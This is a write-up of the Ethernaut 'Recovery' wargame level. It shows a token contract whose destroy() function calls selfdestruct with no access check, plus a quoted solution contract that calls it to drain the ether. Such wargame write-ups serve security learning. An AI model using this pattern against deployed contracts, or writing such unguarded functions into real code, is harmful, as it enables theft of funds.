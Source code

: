 # Level 17 - Recovery

### Objective

The objective of this level is as follows:

1. A contract creator has built a very simple token factory contract. Anyone can create new tokens with ease. After deploying the first token contract, the creator sent 0.001 ether to obtain more tokens. They have since lost the contract address.
2. This level will be completed if you can recover (or remove) the 0.001 ether from the lost contract address.

### Contract

```
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

import '@openzeppelin/contracts/math/SafeMath.sol';

contract Recovery {

  //generate tokens
  function generateToken(string memory _name, uint256 _initialSupply) public {
    new SimpleToken(_name, msg.sender, _initialSupply);

  }
}

contract SimpleToken {

  using SafeMath for uint256;
  // public variables
  string public name;
  mapping (address => uint) public balances;

  // constructor
  constructor(string memory _name, address _creator, uint256 _initialSupply) public {
    name = _name;
    balances[_creator] = _initialSupply;
  }

  // collect ether in return for tokens
  receive() external payable {
    balances[msg.sender] = msg.value.mul(10);
  }

  // allow transfers of tokens
  function transfer(address _to, uint _amount) public {
    require(balances[msg.sender] >= _amount);
    balances[msg.sender] = balances[msg.sender].sub(_amount);
    balances[_to] = _amount;
  }

  // clean up after ourselves
  function destroy(address payable _to) public {
    selfdestruct(_to);
  }
}
```

### Solution

Solution from [Asamartino](https://github.com/Asamartino/EthernautChallenges):

```
pragma solidity ^0.6.6;

\\ Link no longer works
import 'https://github.com/OpenZeppelin/openzeppelin-contracts/blob/master/contracts/math/SafeMath.sol';

contract SimpleToken {

  using SafeMath for uint256;
  // public variables
  string public name;
  mapping (address => uint) public balances;

  // constructor
  constructor(string memory _name, address _creator, uint256 _initialSupply) public {
    name = _name;
    balances[_creator] = _initialSupply;
  }

  // collect ether in return for tokens
  fallback() external payable {
    balances[msg.sender] = msg.value.mul(10);
  }

  // allow transfers of tokens
  function transfer(address _to, uint _amount) public {
    require(balances[msg.sender] >= _amount);
    balances[msg.sender] = balances[msg.sender].sub(_amount);
    balances[_to] = _amount;
  }

  // clean up after ourselves
  function destroy(address payable _to) public {
    selfdestruct(_to);
  }
}

contract Destroy{
    address payable receiver = msg.sender;
    SimpleToken killMeplease;

    function destroySimpleToken(address payable simpleTokenAddress) public{
        killMeplease = SimpleToken(simpleTokenAddress);
        killMeplease.destroy(receiver);
    }

}
```

Done!

